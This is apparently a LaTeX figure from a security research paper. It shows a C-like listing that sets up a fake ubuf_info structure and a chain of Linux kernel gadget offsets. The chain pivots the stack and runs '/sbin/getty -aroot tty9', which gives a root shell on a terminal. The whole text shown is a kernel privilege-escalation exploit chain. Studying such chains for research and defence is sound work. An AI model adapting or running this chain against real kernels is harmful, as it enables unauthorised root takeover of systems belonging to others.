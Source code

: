 \begin{figure}[b]
        \begin{lstlisting}[
        basicstyle = \footnotesize,
        columns = fullflexible,
        %frame = l,
        language = C
        ]
KERNEL_BASE := 0xffffffff81000000; // patch using leaked pointers
ATTACK_PAGE := 0xffff880043430000; // arbitrary selected address

// Fake ubuf_info structure, starting with the callback pointer.
// This is the entry point of the attack.
page[0x000] = KERNEL_BASE + 0x6b511d; // call qword ptr[rdi + 0x3b0]

// pivoting code
page[0x3B0] = KERNEL_BASE + 0x1091fd; // mov rax, qword ptr [rdi + 0x68] ;
                                            // mov rbp, rsp ; call qword ptr [rax]
page[0x068] = &ATTACK_PAGE[0x100];
page[0x100] = KERNEL_BASE + 0x2499c1; // mov rax, qword ptr [rax + 0x38] ;
                                            // call qword ptr [rax + 0x28]
page[0x138] = &ATTACK_PAGE[0x200];
page[0x228] = KERNEL_BASE + 0x16fab6;   // mov rbx, qword ptr [rax + 8] ;
                                            // mov rdi, rax ; call qword ptr [rax]
page[0x208] = &ATTACK_PAGE[0x210];
page[0x210] = KERNEL_BASE + 0x1319ee; // push rax; jmp qword ptr[rcx]
page[0x200] = KERNEL_BASE + 0x2499c1; // mov rax, qword ptr [rax + 0x38] ;
                                            // call qword ptr [rax + 0x28]
page[0x238] = &ATTACK_PAGE[0x300];
page[0x328] = KERNEL_BASE + 0x2ccb61; // mov rcx, qword ptr[rax + 8] ;
                                            // mov rdi, rax; call qword ptr[rax]
page[0x308] = &ATTACK_PAGE[0x310];
page[0x310] = KERNEL_BASE + 0x159c86; // pop rsp ; ret
page[0x300] = KERNEL_BASE + 0x20fb7b; // mov rax, qword ptr[rax + 0x30] ;
                                            // mov r8, qword ptr[rax + 0x40] ;
                                            // call qword ptr[rbx]

page[0x330] = &ATTACK_PAGE[0xF68]; // our new stack :)

// ``/sbin/getty -aroot tty9''
page[0x400] = 0x65672f6e6962732f;
page[0x408] = 0x6f72612d20797474;
page[0x410] = 0x003979747420746f;

// helping pointers
page[0x500] = KERNEL_BASE + 0x0d7b05; // pop rsi; ret
page[0x508] = KERNEL_BASE + 0x12dacd; // pop rdi; ret


\end{lstlisting}
\end{figure}

